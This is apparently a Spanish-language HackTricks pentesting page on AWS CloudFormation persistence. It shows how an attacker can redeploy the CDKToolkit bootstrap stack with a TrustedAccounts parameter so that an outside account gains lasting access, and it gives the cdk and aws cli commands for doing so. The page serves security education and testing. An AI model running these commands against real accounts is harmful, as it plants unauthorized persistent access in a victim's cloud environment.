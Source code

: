 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Para más información, accede a:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

El AWS CDK despliega un stack CFN llamado `CDKToolkit`. Este stack soporta un parámetro `TrustedAccounts` que permite a cuentas externas desplegar proyectos CDK en la cuenta de la víctima. Un atacante puede abusar de esto para otorgarse acceso indefinido a la cuenta de la víctima, ya sea utilizando la AWS cli para redeplegar el stack con parámetros, o la AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
